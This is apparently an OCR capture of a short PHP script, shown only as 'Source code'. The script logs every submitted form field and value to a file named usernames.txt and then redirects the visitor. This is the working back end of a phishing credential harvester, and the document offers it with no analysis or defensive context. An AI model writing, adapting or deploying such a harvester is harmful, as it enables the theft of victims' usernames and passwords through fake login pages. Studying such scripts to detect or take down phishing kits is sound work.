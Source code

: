 <?php
header ('Location:');
$handle = fopen("usernames.txt", "a");
foreach($_POST as $variable => $value)
{
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
?>
